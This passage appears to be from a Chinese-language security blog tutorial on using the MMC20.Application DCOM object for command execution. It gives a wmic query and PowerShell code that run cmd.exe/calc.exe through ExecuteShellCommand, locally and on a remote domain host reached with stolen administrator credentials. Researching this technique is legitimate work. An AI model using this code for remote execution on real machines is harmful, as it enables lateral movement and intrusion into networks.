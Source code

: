 当然，直接使用wmic查询也可以，代码如下：

```
wmic /NAMESPACE:"\\root\CIMV2" PATH Win32_DCOMApplication  GET /all /FORMAT:list
```

powershell对WMI的调用可使用wmic命令进行替换，详情可参考：

https://3gstudent.github.io/3gstudent.github.io/Study-Notes-of-WMI-Persistence-using-wmic.exe/

### 1、对本机测试

管理员权限，powershell代码如下:

获得`"MMC20.Application"`支持的操作：

```
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","127.0.0.1"))
$com.Document.ActiveView | Get-Member
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-9-15/2-1.png)

查看ExecuteShellCommand对应的参数说明：

```
$com.Document.ActiveView.ExecuteShellCommand
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-9-15/2-2.png)

ExecuteShellCommand对应的参数具体含义可参考以下链接：

https://msdn.microsoft.com/en-us/library/aa815396(v=vs.85).aspx


通过ExecuteShellCommand执行程序：

```
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","127.0.0.1"))
$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c calc.exe","Minimized")
```

### 2、对远程系统测试

测试环境：域环境

Client：关闭防火墙

Server：获得域主机内置帐户administrator的口令，可net use连接至Client

Server端管理员权限可选择执行如下powershell代码：

**1.调用MMC20.Application**

```
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.0.2"))
$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c calc.exe","Minimized")
```
